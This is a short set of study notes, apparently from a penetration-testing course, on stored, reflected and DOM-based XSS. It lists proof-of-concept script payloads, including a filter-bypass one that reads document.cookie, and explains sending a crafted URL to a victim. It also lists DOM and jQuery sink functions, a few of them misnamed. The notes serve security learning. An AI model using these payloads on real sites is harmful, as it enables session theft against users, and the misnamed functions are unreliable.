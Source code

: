 ## Stored XSS

#### Basic XSS Payload
```html
<script>alert(window.origin)</script>
```

#### Basic XSS Payload w/ Filter Bypass
```HTML
'><script>alert(document.cookie)</script>'
```


#### Print Dialog Box XSS Payload
```html
<script>print()</script>
```

#### Plaintext XSS Payload
```html
<plaintext>alert(window.origin)</plaintext>
```

#### Acquiring a Cookie with XSS
```html
<script>alert(document.cookie)</script>
```

## Reflected XSS

Same payloads as Stored. To use this, look at it in the Inspector Tools and Network tab, then `Copy>Copy URL` the GET/POST request and send to user. When they visit the URL, the payload will execute.

## DOM-based XSS

If we open the `Network` tab in the Firefox Developer Tools, and re-add the `test` item, we would notice that no HTTP requests are being made.

If we look at the page source by hitting [CTRL+I], we will notice that our test string is nowhere to be found.

Commonly used JavaScript functions to write to DOM objects are:
- `document.write()`
- `DOM.innerHTML` (e.g., `getElementById("todo").innerHTML`)
- `DOM.outerHTML`
- `document.writeIn()`
- `document.domain()`

`jQuery` library functions that write to DOM objects:
- `add()`
- `after()`
- `append()`
- `html()`
- `parseHTML()`
- `insertAfter()`
- `before()`
- `insertBefore()`
- `replaceAll()`
- `replaceWith()`
